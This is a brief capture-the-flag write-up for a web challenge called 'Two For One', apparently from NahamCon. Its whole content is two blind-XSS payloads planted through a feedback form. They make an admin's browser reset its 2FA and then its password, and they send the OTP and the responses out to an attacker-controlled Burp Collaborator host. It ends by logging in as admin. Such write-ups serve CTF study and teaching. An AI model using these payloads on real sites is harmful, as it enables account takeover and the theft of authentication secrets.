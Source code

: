 ## Two For One
> We all love our hacker t-shirts. Make your own custom ones.

Application vulnerable to blind xss on feedback, Logic bugs on Change password (doesnot require old password). Only require 2FA can be reset easily.
First, reset 2FA with this payload:  
```html
"><script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31632/reset2fa', false);
    xhr.send();
    document.location='https://<burp_collaborator>/?otp='+xhr.response;
</script>
```
Second: add authenticator token and get OTP to send reset password request.  
```html
"><script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31632/reset_password', false);
    xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
    xhr.send(JSON.stringify({"otp":"068728","password":"1","password2":"1"}));
    document.location='https://<burp_collaborator>?res='+xhr.response;
</script>
```

Login to with `admin/1` and get flag:  
![Alt text](flag.png?raw=true "Title")  